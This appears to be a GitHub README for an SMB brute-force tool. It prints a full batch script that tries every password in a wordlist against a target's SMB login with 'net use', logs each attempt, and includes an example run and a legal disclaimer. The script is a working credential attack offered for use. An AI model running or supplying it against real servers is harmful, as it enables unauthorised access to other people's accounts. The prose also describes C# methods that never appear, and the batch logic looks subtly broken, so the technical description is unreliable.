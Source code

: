 # SMB Bruteforce 2.0v
This C# application performs a brute force attack on SMB (Server Message Block) to try and discover a user's password on a remote server. Originally a .bat script, it has been converted to C# for improved readability and efficiency. The application prompts the user for the target IP address, username, and the path to a password list file. It then attempts to authenticate to the SMB server using each password from the list, logging the details of each attempt.

### .BAT CODE
```bat
@echo off
title SMB Bruteforce - by Lira
color A
echo.
setlocal enabledelayedexpansion

:validate_ip
set "ip=%~1"
for /f "tokens=1-4 delims=." %%a in ("%ip%") do (
    if %%a lss 0 set valid_ip=0
    if %%a gtr 255 set valid_ip=0
    if %%b lss 0 set valid_ip=0
    if %%b gtr 255 set valid_ip=0
    if %%c lss 0 set valid_ip=0
    if %%c gtr 255 set valid_ip=0
    if %%d lss 0 set valid_ip=0
    if %%d gtr 255 set valid_ip=0
)
if defined valid_ip (
    echo Invalid IP address. Please enter a valid IP address.
    exit /b 1
)
goto :eof

:input
set /p ip="Enter IP Address: "
call :validate_ip %ip%
set /p user="Enter Username: "
set /p wordlist="Enter Password List (with full path): "
if not exist "%wordlist%" (
    echo Password list file not found. Please enter a valid file path.
    exit /b 1
)

setlocal enabledelayedexpansion
for /f %%a in ('find /c /v "" ^<"%wordlist%"') do set total=%%a
set /a progress=0

set log="bruteforce_log.txt"
echo SMB Bruteforce Log > %log%
echo Target IP: %ip% >> %log%
echo Username: %user% >> %log%
echo Wordlist: %wordlist% >> %log%
echo. >> %log%

set /a count=1
for /f "usebackq tokens=*" %%a in ("%wordlist%") do (
    set "pass=%%a"
    call :attempt
    set /a progress+=1
    set /a percent=(progress*100)/total
    <nul set /p "=Progress: !percent!%% [!progress! / !total! attempts]" 
    echo.
)
echo Password not Found :(
echo Password not Found :( >> %log%
pause
exit

:success
echo.
echo Password Found! !pass!
echo Password Found! !pass! >> %log%
net use \\%ip% /d /y >nul 2>&1
pause
exit

:attempt
net use \\%ip% /user:%user% "!pass!" >nul 2>&1
echo [ATTEMPT !count!] [!pass!]
echo [ATTEMPT !count!] [!pass!] >> %log%
set /a count+=1
if !errorlevel! EQU 0 goto success
goto :eof
```

## Features
The program begins by setting up the console and collecting user inputs. It validates the provided IP address to ensure it is in the correct format, comprising four numbers between 0 and 255. After validating the IP address, the application reads the passwords from the provided list and initiates the brute force process. Each authentication attempt is made using the net use command, and the exit code of this command is checked to determine if the attempt was successful. All results, including successful and unsuccessful attempts, are logged in a detailed log file.

## Prerequisites
To compile and run this C# application, you will need the .NET Framework. Additionally, since the net use commands require administrative privileges, ensure that you have the necessary permissions to execute these commands.

## Example Usage
When you run the program, it will prompt you to enter the target IP address, the username, and the full path to your password list file. For example:
```
Enter IP Address: 192.168.56.255
Enter Username: admin
Enter Password List (with full path): C:\passwords.txt
```
The program will then attempt to authenticate to the SMB server using each password from the provided list. Progress will be displayed in the console, and each attempt will be logged. If the correct password is found, a success message will be displayed and logged.

## Code Structure
The Main method is responsible for setting up the console and collecting user inputs. It then validates the IP address, reads the password list, and initiates the brute force process. The Prompt method is used to display messages and read user inputs, while the ValidateIP method checks if the provided IP address is valid. The AttemptLogin method executes the net use command to attempt authentication and checks the exit code to determine if the authentication was successful.
### Explanation of Key Components
**Main Method:**

- Sets the console title and color.
- Prompts the user for IP address, username, and the path to the password list.
- Validates the IP address format.
- Reads passwords from the provided file.
- Initiates the brute force process and logs results.

**Prompt Method:**

- Displays a message and reads the user's input.
- This method simplifies the process of collecting input from the user.

**ValidateIP Method:**

- Splits the IP address into its components.
- Checks if each component is a number between 0 and 255.
- Returns true if the IP address is valid, otherwise returns false.

**AttemptLogin Method:**

- Constructs the command to attempt SMB login using net use.
- Configures the process to run the command silently.
- Executes the command and waits for it to finish.
- Returns true if the login attempt was successful (exit code 0), otherwise returns false.

## ⚠️ Legal Disclaimer
This code was created for educational purposes and testing in controlled environments. Using this code on servers or networks without permission is illegal and can result in severe penalties. Use it responsibly and always obtain permission before conducting security tests on any system.
